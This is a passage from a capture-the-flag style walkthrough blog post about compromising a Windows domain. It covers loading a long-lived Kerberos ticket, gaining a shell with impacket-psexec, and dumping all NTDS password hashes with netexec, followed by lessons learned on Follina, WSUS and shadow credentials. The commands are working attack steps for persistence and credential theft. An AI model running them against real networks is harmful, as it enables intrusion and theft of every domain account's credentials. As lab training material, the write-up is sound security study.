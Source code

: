 -   **Import into session my current session**:
    -   `export KRB5CCNAME=./admin.ccache`
    -   {{< figure src="/ox-hugo/2024-10-12-084407_.png" >}}

-   **Syncronise my time with the Domain Controller**:
    -   `sudo ntpdate -s dc.$domain`
    -   {{< figure src="/ox-hugo/2024-10-12-084444_.png" >}}
    -   +Note+: As kerberos uses time based security checks this is important

-   **Check the ticket is in memory**:
    -   `klist`
    -   {{< figure src="/ox-hugo/2024-10-12-084641_.png" >}}
    -   If you look we can see this ticket is valid for 10 years so as long no-one changes the `krbtgt` password (which is unlikely) we will have persistence.

-   **Connect Using my ticket using** `impacket-psexec`:
    -   `impacket-psexec dc.$domain -k`
    -   {{< figure src="/ox-hugo/2024-10-12-084756_.png" >}}


### Dumping NTDS for fun for fun and profit: {#dumping-ntds-for-fun-for-fun-and-profit}

-   Now that we have persistence we might as well pillage:

-   **I perform a DCSync attack using netexec and dump all hashes**:
    -   `netexec smb $box -u administrator --use-kcache -M ntdsutil`
    -   {{< figure src="/ox-hugo/2024-10-12-085001_.png" >}}


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  I learned about the follina exploit, I had never used that exploit previously so was interesting using purely the malicious HTML part as a delivery mechanism for our exploit.
2.  I learned a lot about WSUS. Looking at the different architecture options available and how to query the registry was interesting from an enumeration point of view.
3.  I learned about the process of doing a shadow credentials attack. I even stopped the box halfway to do a deep-dive and made a blog post I found it so interesting:
    -   <https://bloodstiller.com/articles/shadowcredentialsattack/>


### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1.  Trying to download to `C:\\Temp\\` you know the FAMOUS non-existent directory in windows!
2.  I had a couple of real dense moments when I was tired &amp; over-thinking about how I could use the malicious Follina `html` instead of just sending the link.
3.  Oh, for some reason I kept forgetting to add the title with SharpWSUS.


## Sign off: {#sign-off}

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at proton dot me




